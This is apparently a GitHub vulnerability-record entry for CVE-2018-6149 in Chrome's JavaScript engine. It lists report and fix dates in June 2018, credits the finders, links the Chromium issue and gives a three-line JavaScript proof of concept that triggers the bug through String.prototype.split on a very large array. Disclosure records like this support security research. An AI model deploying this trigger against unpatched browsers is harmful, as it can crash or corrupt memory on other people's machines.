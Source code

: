 # CVE-2018-6149

- Report: Jun 2018
- Fix: Jun 2018
- Credit: Yu Zhou and Jundong Xie of Ant-financial Light-Year Security Lab

## PoC

```javascript
var str2 = String.fromCharCode(0x2c); //add `,` into single character string cache
var o2 = new Array(0x20000000);
String.prototype.split.call(o2,'');
```

## Reference

- [Issue](https://crbug.com/848672)
